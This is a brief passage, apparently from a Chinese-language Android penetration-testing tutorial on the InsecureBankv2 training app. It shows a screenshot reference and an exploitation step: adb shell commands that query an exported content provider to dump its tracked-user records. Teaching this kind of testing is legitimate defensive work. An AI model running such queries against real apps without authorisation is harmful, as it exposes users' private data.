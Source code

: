     ![](images/ContentProvider-find-2.png)

- 利用漏洞

  ```bash
  # 进入adb shell
  adb shell
  
  # 发送命令
  content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  ```
